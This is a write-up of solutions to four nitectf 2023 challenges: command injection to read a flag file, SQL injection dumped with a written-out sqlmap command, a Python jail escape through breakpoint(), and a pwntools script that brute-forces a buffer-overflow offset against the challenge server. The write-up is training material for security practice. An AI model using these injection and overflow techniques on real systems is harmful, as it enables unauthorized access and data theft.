 # nitectf - 2023

Homepage - https://nitectf.live/
CTF Page - https://play.nitectf.live/

## Web

### ERaaS

> Description
> Emergency response? Afraid not.
> http://eraas.web.nitectf.live/

Here there is command injection. Firstly, I tried to do `ls`, it printed all the files in current directory. There was a flag.txt file and then I printed content of flag.txt file using `cat`.

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_5f4548808dc296f4542216885942f053.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1702998416&Signature=ARr8EoQGyjnSCTFQRsYtyrLePCE%3D)

Flag: `nite{b3tt3r_n0_c5p_th7n_b7d_c5p_r16ht_fh8w4d}`

### LiteLibrary

> Description
> Testing in prod. No worries are long as we are lighte :)
> http://litelibrary.web.nitectf.live/

In website, there is a search functionality `http://litelibrary.web.nitectf.live/api/search?q=ab` here `q` is the query. So as that data is coming from database, I have tried to do SQL injection and it worked.

Using sqlmap, we can dump all the data and get the flag.

`python sqlmap.py -u http://litelibrary.web.nitectf.live/api/search?q=ab --level 2 --risk 2`

The flag is in user's table.

Flag: `nite{t00_l1t3_huh_50m30n3_g37_an71_g2av17y_0v3r_h3r3}`

## Misc

### blindjail

Here, from the question title itself, we can get to know that it is python jail breaking challenge. So I have tried to imort os first, it was showing no imports are allowed. Other commands are getting banned like system. Also builtins are not defined... After some tries, I found out that we can use `breakpoint()` and then we can import os and run system command in the command line.

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_8c99b839093ab64d5459c5c25e2e4191.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1702998435&Signature=9hWDUi3cL%2FYzABqSEkv4iOOTz%2Bc%3D)

Flag: `nitectf{sl1d3_0ver_th3se_4ttribut3s}`

## Pwn

### The road not taken

> Show me the right path to reach my final destination
> nc 34.100.142.216 1337

There was a binary attached with this challenge, when I loaded binary in ghidra,

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_227bfaca512bbda62dd321610228f97c.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1702998444&Signature=n4zlA%2FBqBoxMKJzXrI%2FHC2FNlgw%3D)

I can see, `local_10` variable is getting executed. So basically it is buffer overflow challenge, we just have to find the right offset and write the addredd as 'Y'. Offset to `right_direction` function.

So, in `main()` function, `local_218` function is of length 520.

So I wrote a script to fuzz and finally, I found

```python
from pwn import *

host = '34.100.142.216'
port = 1337


for offset in range(520, 600):
    conn = remote(host, port)

    payload = b'Y' * offset

    conn.send(payload)
    print(conn.recvline())
    print(conn.recvline())

    try:
        last_line = conn.recvline()

        if b'nite' in last_line:
            print(offset, last_line)
            break
    except:
        pass

    conn.close()
```

Flag: `nite{R0b3rT_fro5t_ftw_32dx5hp}`
